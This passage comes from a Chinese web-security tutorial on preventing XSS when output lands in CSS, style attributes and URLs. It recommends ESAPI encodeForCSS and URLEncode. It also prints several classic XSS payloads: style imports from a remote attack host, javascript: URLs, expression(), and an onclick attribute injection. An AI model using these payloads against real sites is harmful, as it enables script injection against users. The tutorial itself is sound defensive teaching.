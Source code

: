 在CSS和style、style attribute中形成XSS的方式非常多样化，参考下面几个XSS的例子

```html
<STYLE>@import 'http://ha.ckers.org/xss.css';</STYLE>
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
<XSS STYLE="behavior: url(xss.htc);">
<STYLE>li  {list-style-image: url("javascript:alert('XSS')")}</STYLE><UL><LI>XSS
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
```

所以，一般来说，尽可能禁止用户可控制的变量在`<style>标签`、`HTML标签的style属性`以及`CSS文件`中输出。如果一定有这样的需要，则推荐使用OWASP ESAPI中的encodeForCSS()函数

```java
String safe = ESAPI.encoder().encodeForCSS(request.getParameter("input"));
```

其实现原理类似于ESAPI.encoder().encodeForJavaScript()函数，除了字母、数字外的所有字符都被编码为十六进制形式“\uHH”

### 在URL中输出变量

在地址中输出也比较复杂。一般来说，在URL的path(路径)或者search(参数)中输出，使用URLEncode即可。URLEncode会将字符转换为“%HH”格式，比如空格就是"%20"，"<"就是"%3c"

```php
<a href="http://www.evil.com/?test=$var" >test</a>
```

可能的攻击方法

```html
<a href="http://www.evil.com/?test=" onclick=alert(1)"" ></a>
```

经过URLEncode后，变成

```hmtl
<a href="http://www.evil.com/?test=%22%20onclick%3balert%281%29%22" ></a>
```

但是还有一种情况，就是整个URL能够被用户完全控制。这时URL的Protocal和Host部分是不能使用URLEncode的，否则会改变URL的语义

一个URL的组成如下

>[Protocal][Host][Path][Search][Hash]

例如

```
https://www.evil.com/a/b/c/test?abc=123#ssss

[Protocal] = https://
[Host] = www.evil.com
[Path] = /a/b/c/test
[Search] = ?abc=123
[Hash] = #ssss
```

在Protocal与Host中，如果使用严格的URLEncode函数，会把"://"、"."等都编码掉了！
